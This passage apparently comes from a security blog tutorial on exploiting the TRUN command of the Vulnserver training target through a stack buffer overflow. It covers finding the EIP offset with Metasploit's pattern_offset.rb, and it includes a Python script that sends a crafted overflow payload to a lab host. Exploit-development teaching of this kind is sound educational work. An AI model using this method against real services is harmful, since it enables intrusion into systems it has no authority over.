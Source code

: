 And we run the exploit again:

<div class="imgblock">

![Exploit: take 2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331211/blog/vulnserver-trun/trun6_mcugty.gif)

</div>

<div class="imgblock">

![Cyclic pattern on EIP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331208/blog/vulnserver-trun/trun7_bo0j8a.webp)

</div>

As you can see, the `EIP` register now holds the value `386F4337`. We
need to check the exact offset of that string on our unique cyclic
pattern. To do that, we can use `pattern_offset.rb` from `Metasploit`:

<div class="imgblock">

![Pattern offset](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331211/blog/vulnserver-trun/pattern2_rnak0v.webp)

</div>

Great, it tells us that the `EIP` gets overwritten starting on the
**2003** byte of our buffer. Let’s update the exploit to verify that:

**exploit.py.**

``` python
import socket

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 2003 +
    b'B' * 4 +
    b'C' * (5000 - 2003 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

<cta-banner
  buttontxt="Read more"
  link="/solutions/ethical-hacking/"
  title="Get started with Fluid Attacks' Ethical Hacking solution right now"
/>

In this updated exploit, we will send a buffer of 2003 `A`, then a
single 4 byte string of `B` (whose hex representation is `42`) and fill
the rest of our 5000 buffer with `C`. If the offset is correct, `EIP`
will hold the value of `42424242` which are the four bytes of our `B`
buffer:
